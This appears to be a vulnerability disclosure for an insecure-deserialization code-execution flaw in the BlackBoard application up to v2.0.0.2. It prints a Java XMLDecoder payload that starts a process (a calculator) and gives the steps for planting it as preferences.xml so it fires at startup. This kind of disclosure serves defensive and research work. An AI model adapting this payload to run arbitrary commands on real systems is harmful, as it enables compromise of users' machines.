



# BlackBoard V2.0.0.2  Insecure Deserialization & RCE
Affected Version: <= v2.0.0.2(latest release version)

Application: [Here](https://github.com/mpue/blackboard/releases/tag/2.0.0.2)


## Insecure Deserialization Vulnerability
```php
<java>
    <object class="java.lang.ProcessBuilder">
        <array class="java.lang.String" length="1" >
            <void index="0">
                <string>calc</string>
            </void>
        </array>
        <void method="start"/>
    </object>
</java>
```
After saving the above code as preferences.xml file, upload the file to the C:\Users\username\.BlackBoard folder, and create three empty folders "models", "simulators", and "symbols" in the .BlackBoard directory. Start the application to trigger the vulnerability.


## Exploit

Saving the code as preferences.xml file, upload the file to the folder **C:\Users\username\.BlackBoard**. Create three empty folders **"models", "simulators", and "symbols"** in the .BlackBoard directory. Start the application to trigger the vulnerability.









